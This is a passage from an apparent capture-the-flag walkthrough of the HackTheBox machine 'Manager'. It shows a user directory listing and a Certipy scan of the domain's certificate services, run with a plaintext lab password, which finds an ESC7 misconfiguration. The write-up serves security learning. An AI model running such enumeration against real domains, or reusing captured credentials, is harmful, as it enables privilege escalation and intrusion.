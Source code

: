 ```
d-r---        9/15/2018  12:19 AM                Videos

    Directory: C:\Users\Raven\Desktop

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        3/12/2024   9:21 PM             34 user.txt

```

There’s no other user directories, and the web directory doesn’t have anything else interesting.

#### ADCS

With a Windows domain, the next thing to check used to be Bloodhound, but lately it’s worth checking Advice Directory Certificate Services (ADCS) as well, and that’s quick, so I’ll start there. This can be done by uploading [Certify](https://github.com/GhostPack/Certify) or remotely with [Certipy](https://github.com/ly4k/Certipy). I find Certipy easier.

I’ll look for vulnerable templates:

```

oxdf@hacky$ certipy find -dc-ip 10.10.11.236 -ns 10.10.11.236 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'manager-DC01-CA' via CSRA
[*] Got CA configuration for 'manager-DC01-CA'
[*] Enumeration output:
Certificate Authorities
  0
    CA Name                             : manager-DC01-CA
    DNS Name                            : dc01.manager.htb
    Certificate Subject                 : CN=manager-DC01-CA, DC=manager, DC=htb
    Certificate Serial Number           : 5150CE6EC048749448C7390A52F264BB
    Certificate Validity Start          : 2023-07-27 10:21:05+00:00
    Certificate Validity End            : 2122-07-27 10:31:04+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : MANAGER.HTB\Administrators
      Access Rights
        Enroll                          : MANAGER.HTB\Operator
                                          MANAGER.HTB\Authenticated Users
                                          MANAGER.HTB\Raven
        ManageCertificates              : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
        ManageCa                        : MANAGER.HTB\Administrators
                                          MANAGER.HTB\Domain Admins
                                          MANAGER.HTB\Enterprise Admins
                                          MANAGER.HTB\Raven
    [!] Vulnerabilities
      ESC7                              : 'MANAGER.HTB\\Raven' has dangerous permissions
Certificate Templates                   : [!] Could not find any certificate templates

```
